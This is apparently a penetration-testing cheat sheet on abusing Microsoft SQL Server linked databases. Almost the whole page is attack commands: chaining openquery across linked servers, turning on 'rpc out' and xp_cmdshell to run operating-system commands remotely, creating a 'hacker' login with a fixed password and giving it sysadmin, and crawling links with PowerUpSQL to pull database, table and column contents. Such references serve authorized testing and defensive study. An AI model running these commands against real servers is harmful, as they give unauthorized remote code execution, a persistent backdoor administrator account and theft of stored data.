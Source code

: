 # MSSQL - Linked Database

## Summary

- [Find Trusted Link](#find-trusted-link)
- [Execute Query Through The Link](#execute-query-through-the-link)
- [Crawl Links for Instances in the Domain](#crawl-links-for-instances-in-the-domain)
- [Crawl Links for a Specific Instance](#crawl-links-for-a-specific-instance)
- [Query Version of Linked Database](#query-version-of-linked-database)
- [Execute Procedure on Linked Database](#execute-procedure-on-linked-database)
- [Determine Names of Linked Databases](#determine-names-of-linked-databases)
- [Determine All the Tables Names from a Selected Linked Database](#determine-all-the-tables-names-from-a-selected-linked-database)
- [Gather the Top 5 Columns from a Selected Linked Table](#gather-the-top-5-columns-from-a-selected-linked-table)
- [Gather Entries from a Selected Linked Column](#gather-entries-from-a-selected-linked-column)

## Find Trusted Link

```sql
select * from master..sysservers
```

## Execute Query Through The Link

```sql
-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- enable rpc out for xp_cmdshell
EXEC sp_serveroption 'sqllinked-hostname', 'rpc', 'true';
EXEC sp_serveroption 'sqllinked-hostname', 'rpc out', 'true';
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc'',''true'';');
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc out'',''true'';');

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## Crawl Links for Instances in the Domain

A Valid Link Will Be Identified by the DatabaseLinkName Field in the Results

```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
select * from master..sysservers
```

## Crawl Links for a Specific Instance

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
select * from openquery("<instance>",'select * from openquery("<instance2>",''select * from master..sysservers'')')
```

## Query Version of Linked Database

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```

## Execute Procedure on Linked Database

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```

## Determine Names of Linked Databases

> tempdb, model ,and msdb are default databases usually not worth looking into. Master is also default but may have something and anything else is custom and definitely worth digging into. The result is DatabaseName which feeds into following query.

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```

## Determine All the Tables Names from a Selected Linked Database

> The result is TableName which feeds into following query

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```

## Gather the Top 5 Columns from a Selected Linked Table

> The results are ColumnName and ColumnValue which feed into following query

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```

## Gather Entries from a Selected Linked Column

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```

